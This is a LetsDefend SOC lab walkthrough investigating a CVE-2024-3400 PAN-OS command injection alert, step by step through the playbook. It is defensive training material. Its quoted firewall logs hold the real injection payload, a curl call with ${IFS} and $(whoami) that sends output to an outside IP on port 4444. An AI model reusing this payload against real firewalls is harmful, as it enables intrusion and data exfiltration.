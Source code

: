 # SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)

## Overview

![overview](https://github.com/user-attachments/assets/c4a00a9d-38ff-419d-97cf-f7e4d4f2fc3f)

Welcome back, this alert severity is categorize as Critical so it is important to investigate with attention to detail.

OK lets start with taking action of create case on investigation page.

![create case](https://github.com/user-attachments/assets/c39c9701-5f0c-434e-946c-8443564513e7)

The page takeover by case management to start the investigation using provided playbook. so click on start playbook.

![playbook start](https://github.com/user-attachments/assets/62206a5d-887b-4a6b-aaf4-3f462debb579)

The playbook initiates with should be know about the alert and what it is and how it occured, So alert was generated due to the source sent a POST method request to the firewall, in that 
request header the session cookie has the whoami command to retrive the current user on firewall, because the command injected on session cookie the alert was generated.
Click on next.

![alert was triggered](https://github.com/user-attachments/assets/51ae009f-d36b-45f6-b5bd-8ca4a4c1e033)

To do further investigation process, we should collet answers for this question.
Ownership of the IP addresses and devices.
If the traffic is coming from outside (Internet);
Ownership of IP address (Static or Pool Address? Who owns it? Is it web hosting?)
Reputation of IP Address (Search in VirusTotal, AbuseIPDB, Cisco Talos)
If the traffic is coming from company network;
Hostname of the device
Who owns the device (username)
Last user logon time
![Collect data](https://github.com/user-attachments/assets/2d472466-674e-424f-b1d4-b50ece83dfcc)


Note answers for those questions aside and move on to next page.

Now Check the traffic content for any suspicious conditions such as web attack payloads (SQL Injection, XSS, Command Injection, IDOR, RFI/LFI). So copen endpoint security and search the firewall and look into http traffic.
we see there are two logs in log management page, after looking into raw logs we found that there were logs with commands to query to firewall. It is suspicious traffic from internet.

![raw logs](https://github.com/user-attachments/assets/11b5d1f9-f693-4109-8642-f7024f6e829f)

2024-04-18 15:09:42,629: dt_send INFO TX_DIR: send file dir: fname: /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`
2024-04-18 15:09:42,629 : dt_send INFO TX FILE: send_fname: /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`
2024-04-18 15:09:42,630: dt_send INFO TX_FILE: dest server ip: 144.172.79.92
2024-04-18 15:09:42,630 : dt_send INFO TX FILE: send_file_cmd: /usr/local/bin/dt_curl -i 172.16.17.139 -f /opt/panlogs/tmp/device_telemetry/day/aaacurl${IFS}144.172.79.92:4444?user=`$(whoami)`

The command inserted is whoami, it is retrive the current user on device. clicking next,

we should answer for the whether the traffic is malicious or not, with the found traffic it is malicious.

![is it malicious](https://github.com/user-attachments/assets/678e9ca5-fd44-4b0b-b940-9d60540ff6ea)

Click on malicious of its suspicious traffic from log management.
In the next question, it is like answering the which attack type, the attack type is command injection, so click on it.

![attack type](https://github.com/user-attachments/assets/783cc046-940e-4a57-b1a5-c5344e0931ec)


Checking if the device generating malicious traffic belongs to attack simulation products. If the Hostname contains the name of Attack Simulation products (such as Verodin, AttackIQ, Picus…), these devices belong to Attack Simulation products within the framework of LetsDefend simulation and it is a planned work.
After looking into http traffic we have not found any simulation products so it is not planned, click on not planned.

We should answer for the direction of traffic, as we got overview details from alert details, in that we had dst as PA-Firewall device which is our network device and src ip address was public ip address so it is internet to company network format.

![Direction traffic](https://github.com/user-attachments/assets/60f1ce0e-f7cf-4a5b-9781-bb0dc9ac9318)

And verify that whether the command was executed on device or not by checking at endpoint security of the device and look in command history, from logs, found that with the command injection, retrived the PA-Firewall ip address.
so the attack was successfull. 

![was successfull](https://github.com/user-attachments/assets/f06dfd5c-2337-4850-88b5-5573622be88f)

Click on successfull button, because there were retriveing of current user ip address.

Because of attack was successful, we need to contain the system from not spreading the attack to other systems, click on request and change to contain.

![containment](https://github.com/user-attachments/assets/dbd05743-4506-400d-9027-2817f7b24744)

Enter found artifacts on given blanks

![artifacts](https://github.com/user-attachments/assets/ec72a8be-ec46-4dd5-920a-1300acc22182)

Now, the book asks for tier 2 escation, as the attack was successfull form internet to company, there we found retriveing of current user ip address.
click on escalation to tier 2.

Write an analysis note,Confirmed that it is true positive alert, attack was successfully on the target device, device was contained, and retrived current ip address., and escalated to tier 2 because of the successful attack on the target.


![finish playbook](https://github.com/user-attachments/assets/2a6d418b-e084-4dae-8600-100e90351e0d)

click on finish playbook button to close this playbook and to close the alert.

![close alert1](https://github.com/user-attachments/assets/3a7ccc17-fdb0-44ae-87a2-5ee65deed912)

With all finding and investigation process, it is true positive because the attack was successful. click on true positive and write note.



